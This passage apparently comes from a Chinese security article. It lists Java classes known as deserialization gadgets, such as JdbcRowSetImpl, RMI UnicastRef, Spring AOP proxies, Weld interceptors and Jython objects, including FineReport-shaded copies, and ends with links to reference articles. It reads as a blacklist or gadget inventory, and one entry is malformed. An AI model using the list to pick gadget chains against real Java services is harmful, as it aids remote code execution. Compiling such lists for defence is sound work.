com.fr.third.org.hibernate.tuple.component.PojoComponentTuplizer
com.fr.third.org.hibernate.type.AbstractType
com.fr.third.org.hibernate.type.ComponentType
com.fr.third.org.hibernate.type.Type
com.fr.third.org.hibernate.EntityMode
com.sun.rowset.JdbcRowSetImpl
org.jboss.interceptor.builder.InterceptionModelBuilder
org.jboss.interceptor.builder.MethodReference
org.jboss.interceptor.proxy.DefaultInvocationContextFactory
org.jboss.interceptor.proxy.InterceptorMethodHandler
org.jboss.interceptor.reader.ClassMetadataInterceptorReference
org.jboss.interceptor.reader.DefaultMethodMetadata
org.jboss.interceptor.reader.ReflectiveClassMetadata
org.jboss.interceptor.reader.SimpleInterceptorMetadata
org.jboss.interceptor.spi.instance.InterceptorInstantiator
org.jboss.interceptor.spi.metadata.InterceptorReference
org.jboss.interceptor.spi.metadata.MethodMetadata
org.jboss.interceptor.spi.model.InterceptionType
org.jboss.interceptor.spi.model.InterceptionModel
sun.rmi.server.UnicastRef
sun.rmi.transport.LiveRef
sun.rmi.transport.tcp.TCPEndpoint
java.rmi.server.RemoteObject
java.rmi.server.RemoteRef
java.rmi.server.ObjID
java.rmi.RemoteObjectInvocationHandler
java.rmi.server.UnicastRemoteObject
java.rmi.registry.Registry
sun.rmi.server.ActivationGroupImpl
sun.rmi.server.UnicastServerRef
org.springframework.aop.framework.AdvisedSupport
net.sf.json.JSONObject
javax.xml.transform.Templates
org.jboss.weld.interceptor.builder.InterceptionModelBuilder
org.jboss.weld.interceptor.builder.MethodReference
org.jboss.weld.interceptor.proxy.DefaultInvocationContextFactory
org.jboss.weld.interceptor.proxy.InterceptorMethodHandler
org.jboss.weld.interceptor.reader.ClassMetadataInterceptorReference
org.jboss.weld.interceptor.reader.DefaultMethodMetadata
org.jboss.weld.interceptor.reader.ReflectiveClassMetadata
org.jboss.weld.interceptor.reader.SimpleInterceptorMetadata
org.jboss.weld.interceptor.spi.instance.InterceptorInstantiator
org.jboss.weld.interceptor.spi.metadata.InterceptorReference
org.jboss.weld.interceptor.spi.metadata.MethodMetadata
org.jboss.weld.interceptor.spi.model.InterceptionModel
org.jboss.weld.interceptor.spi.model.InterceptionType
org.python.core.PyObject
org.python.core.PyBytecode
org.python.core.PyFunction
org.apache.myfaces.context.servlet.FacesContextImpl
org.apache.myfaces.context.servlet.FacesContextImplBase
org.apache.myfaces.el.CompositeELResolver
org.apache.myfaces.el.unified.FacesELContext
org.apache.myfaces.view.facelets.el.ValueExpressionMethodExpression
com.sun.syndication.feed.impl.ObjectBean
org.springframework.beans.factory.ObjectFactory
org.springframework.core.SerializableTypeWrapper.$MethodInvokeTypeProvider
org.springframework.aop.framework.AdvisedSupport
org.springframework.aop.target.SingletonTargetSource
org.springframework.aop.framework.JdkDynamicAopProxy
org..springframework.transaction.jta.JtaTransactionManager
com.fr.third.springframework.beans.factory.ObjectFactory
com.fr.third.springframework.core.SerializableTypeWrapper.$MethodInvokeTypeProvider
com.fr.third.springframework.aop.framework.AdvisedSupport
com.fr.third.springframework.aop.target.SingletonTargetSource
com.fr.third.springframework.aop.framework.JdkDynamicAopProxy
com.fr.third.springframework.transaction.jta.JtaTransactionManager
com.vaadin.data.util.NestedMethodProperty
com.vaadin.data.util.PropertysetItem
java.util.PriorityQueue
java.lang.reflect.Proxy
javax.management.MBeanServerInvocationHandler
javax.management.openmbean.CompositeDataInvocationHandler
java.beans.EventHandler
java.util.Comparator
org.reflections.Reflections
com.fr.third.org.reflections.Reflections
```

### 参考文章

[https://tttang.com/archive/1701/#toc\_\_9](https://tttang.com/archive/1701/#toc__9)

[https://xz.aliyun.com/t/12509](https://xz.aliyun.com/t/12509)

[https://xz.aliyun.com/t/13389](https://xz.aliyun.com/t/13389)

[https://xz.aliyun.com/t/13900](https://xz.aliyun.com/t/13900)